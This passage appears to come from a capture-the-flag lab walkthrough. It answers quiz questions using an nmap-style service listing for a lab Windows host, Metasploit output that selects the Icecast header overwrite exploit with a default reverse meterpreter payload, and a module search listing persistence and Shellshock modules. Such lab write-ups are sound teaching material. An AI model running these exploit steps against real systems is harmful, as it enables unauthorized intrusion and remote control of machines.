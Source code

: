 ```
Services
========

host           port   proto  name               state  info
----           ----   -----  ----               -----  ----
10.10.196.190  135    tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.10.196.190  445    tcp    microsoft-ds       open   Microsoft Windows 7 - 10 microsoft-ds workgroup: WORKGROUP
10.10.196.190  3389   tcp    ssl/ms-wbt-server  open
10.10.196.190  5357   tcp    http               open   Microsoft HTTPAPI httpd 2.0 SSDP/UPnP
10.10.196.190  8000   tcp    http               open   Icecast streaming media server
10.10.196.190  49152  tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  49153  tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  49154  tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  49158  tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  49159  tcp    msrpc              open   Microsoft Windows RPC
10.10.196.190  49160  tcp    msrpc              open   Microsoft Windows RPC
```

**Answer**: `msrpc`
### What is the full path for our exploit that now appears on the `msfconsole` prompt?
```
msf6 > use icecast
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/http/icecast_header  2004-09-28       great  No     Icecast Header Overwrite


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/http/icecast_header

[*] Using exploit/windows/http/icecast_header
```

**Answer**: `exploit/windows/http/icecast_header`
### What is the name of the column on the far left side of the console that shows up next to `Name`?
```
msf6 > search multi/handler

Matching Modules
================

   #  Name                                                 Disclosure Date  Rank       Check  Description
   -  ----                                                 ---------------  ----       -----  -----------
   0  exploit/linux/local/apt_package_manager_persistence  1999-03-09       excellent  No     APT Package Manager Persistence
   1  exploit/android/local/janus                          2017-07-31       manual     Yes    Android Janus APK Signature bypass
   2  auxiliary/scanner/http/apache_mod_cgi_bash_env       2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner
   3  exploit/linux/local/bash_profile_persistence         1989-06-08       normal     No     Bash Profile Persistence
```